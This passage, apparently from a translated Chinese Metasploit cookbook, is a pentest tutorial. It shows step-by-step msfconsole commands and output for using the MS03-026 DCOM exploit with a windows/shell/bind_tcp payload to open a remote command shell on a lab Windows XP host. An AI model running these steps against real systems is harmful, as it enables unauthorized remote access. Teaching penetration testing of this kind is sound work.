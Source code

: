 要将一个 shell 绑定到目标，按照以下步骤进行：

1.  我们将从选择`dcom`利用开始针对我们的目标机器。我们将设置各种利用参数，然后选择有效载荷：

```
msf > use exploit/windows/dcerpc/ms03_026_dcom
msf exploit(ms03_026_dcom) > show options
Module options (exploit/windows/dcerpc/ms03_026_dcom):
Name Current Setting Required Description
---- --------------- -------- -----------
RHOST yes The target address
RPORT 135 yes The target port
Exploit target:
Id Name
-- ----
0 Windows NT SP3-6a/2000/XP/2003 Universal
msf exploit(ms03_026_dcom) > set RHOST 192.168.56.102
RHOST => 192.168.56.102 
```

1.  现在我们的利用已经设置好，我们现在将转向有效载荷。使用`show payloads`命令将列出所有可用的有效载荷。现在，我们将使用`windows/shell/bind_tcp`有效载荷，它将在目标机器上的端口`4444`（默认）上打开一个 TCP 连接，并为我们提供一个命令 shell：

```
msf exploit(ms03_026_dcom) > set PAYLOAD windows/shell/bind_tcp
PAYLOAD => windows/shell/bind_tcp 
```

1.  现在：使用`show options`命令，我们可以设置其他相关参数，如`RHOST`并更改默认端口。设置好参数后，我们将执行利用。让我们看看执行的输出是什么：

```
msf exploit(ms03_026_dcom) > exploit
[*] Started reverse handler on 192.168.56.101:4444
[*] Automatically detecting the target...
[*] Fingerprint: Windows XP - Service Pack 2 - lang:English
[*] Selected Target: Windows XP SP2 English (AlwaysOn NX)
[*] Attempting to trigger the vulnerability...
[*] Sending stage (240 bytes) to 192.168.56.102
[*] Command shell session 1 opened (192.168.56.101:4444 -> 192.168.56.102:1052) at 2011-10-31 01:55:42 +0530
Microsoft Windows XP [Version 5.1.2600]
(C) Copyright 1985-2001 Microsoft Corp.
C:\WINDOWS\system32> 
```

利用已经成功执行，并且我们在`msfconsole`中启动了一个命令提示符。现在，这个会话可以用来完全远程访问目标机器。我们可以随时使用`exit`命令退出这个会话。

你现在可能已经意识到了 Metasploit 中有效载荷的强大。强烈建议尝试各种可用的有效载荷，以了解它们的功能。

## 它是如何工作的...

`dcom`利用的工作原理与上一篇文章中解释的相同。要了解`bind_tcp`的工作原理，我们需要等一会儿，因为它涉及到一些我们将在本书的后面章节中处理的概念。不过，你可以通过浏览`/pentest/exploits/framework3/modules/payloads/stagers/windows/bind_tcp.rb`来查看有效载荷 ruby 代码。

## 还有更多...
